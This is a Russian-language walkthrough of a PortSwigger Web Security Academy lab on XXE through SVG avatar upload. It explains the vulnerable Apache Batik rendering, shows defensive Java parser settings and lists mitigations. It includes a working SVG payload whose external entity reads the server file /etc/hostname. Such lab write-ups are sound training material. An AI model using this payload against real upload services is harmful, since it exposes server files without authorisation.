


# Lab: Exploiting XXE via image file upload

**Платформа:** PortSwigger Web Security Academy
**Категория:** XXE (XML External Entity)
**Сложность:** Practitioner
**Дата:** 2026-07-29

---

## TL;DR
Функция загрузки аватара к комментарию принимает SVG-файлы и
обрабатывает их через Apache Batik. SVG — это текстовый XML-формат,
а значит его тоже парсит XML-парсер, в который можно внедрить
классическую внешнюю сущность. Сущность `&xxe;`, вызванная прямо
внутри текстового элемента `<text>`, разворачивается в содержимое
`/etc/hostname` и попадает на итоговое растровое изображение —
результат виден невооружённым глазом, без Collaborator и слепых
техник.

---


## Разведка

### Шаг 1 — Изучение функции комментариев и аватаров

На странице поста в блоге нашла форму комментария с полем
загрузки аватара. Форма принимает файлы изображений, в том
числе `.svg`.

[СКРИН 1: форма комментария с полем загрузки аватара]

### Шаг 2 — Вывод: SVG = XML

Так как SVG — текстовый XML-формат, а подсказка лабы прямо
об этом говорит, решила проверить его на классический XXE:
объявить внешнюю сущность в `DOCTYPE` и вызвать её внутри
самого SVG-документа так, чтобы результат попал в видимую
часть изображения.

---

## Эксплуатация

### Шаг 3 — Подготовка вредоносного SVG-файла

Создала локально файл `avatar.svg` со следующим содержимым:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Разбор:

```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
    — классическое объявление внешней сущности,
      читающей содержимое /etc/hostname на сервере

<svg ...>
    — валидная структура SVG-документа, чтобы Batik
      согласился распарсить файл и отрендерить как картинку

<text font-size="16" x="0" y="16">&xxe;</text>
    — вызов сущности прямо внутри видимого текстового элемента:
      после разворачивания сущности её значение (содержимое файла)
      становится обычным текстом на итоговом изображении
```



### Шаг 4 — Загрузка вредоносного аватара

Оставила комментарий к посту в блоге, прикрепила `avatar.svg`
как аватар и отправила комментарий.

[СКРИН 3: форма комментария с прикреплённым avatar.svg перед отправкой]

### Шаг 5 — Получение результата

Открыла страницу со своим комментарием — на отрендеренном
изображении аватара оказалось видно содержимое файла
`/etc/hostname`, вставленное библиотекой Batik прямо в
текстовый элемент SVG при обработке файла.



### Шаг 6 — Отправка решения

Считала значение hostname с изображения и ввела его в форму
**Submit solution**. Лаба решена.

[СКРИН 5: форма Submit solution с введённым значением hostname]

---

## Итог

```
Проблема: форма "загрузки изображения" фактически принимает
          произвольный XML-документ (SVG) и передаёт его
          в библиотеку рендеринга (Apache Batik)

Проблема: библиотека парсит SVG без отключения DTD
          и внешних сущностей

Результат: классическая внешняя сущность &xxe; в DOCTYPE
           SVG-файла разворачивается внутри <text> и
           визуально отображается на итоговой картинке —
           отражение результата "из коробки", без
           дополнительных OOB/error-based техник
```

### Почему это отдельный класс атаки

```
Разработчики часто думают:
"это же просто загрузка картинки — какой тут может быть XXE?"

Но многие "форматы изображений" — на самом деле XML внутри:
SVG            — XML напрямую
DOCX/XLSX/PPTX — ZIP-архив с XML-файлами внутри
RSS/Atom       — тоже XML

Любая библиотека, обрабатывающая такие форматы на сервере,
скрыто использует XML-парсер — и требует такой же защиты,
как и явные XML-эндпоинты API
```

---

## Защита

```java
// УЯЗВИМО — Batik/Java XML-парсер по умолчанию обрабатывает
// DOCTYPE и внешние сущности при парсинге SVG:
SAXSVGDocumentFactory factory = new SAXSVGDocumentFactory(parser);
Document doc = factory.createDocument(uri, inputStream);

// БЕЗОПАСНО — явно отключить DTD и внешние сущности
// на уровне используемого XML-парсера/фабрики:
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);
```

Дополнительно:
- Не доверять расширению/MIME-типу загружаемого файла — валидировать
  реальное содержимое (magic bytes, структуру) перед обработкой
- Для SVG в частности: либо отключать DTD в парсере рендеринга,
  либо санитизировать SVG перед рендерингом отдельной библиотекой
  (например, строгий SVG-sanitizer, удаляющий DOCTYPE и сущности)
- Рассмотреть конвертацию пользовательских SVG в растровый формат
  через изолированный, безопасно сконфигурированный конвейер,
  либо полный запрет загрузки SVG, если не требуется бизнес-логикой
- Изолировать (sandboxing) процесс обработки загружаемых файлов
  от остальной файловой системы сервера — ограничить доступ
  к чувствительным путям вроде `/etc/`
- Применять общий принцип: любая библиотека, парсящая
  "не совсем бинарные" форматы файлов, должна быть явно
  сконфигурирована так же безопасно, как XML-парсер в API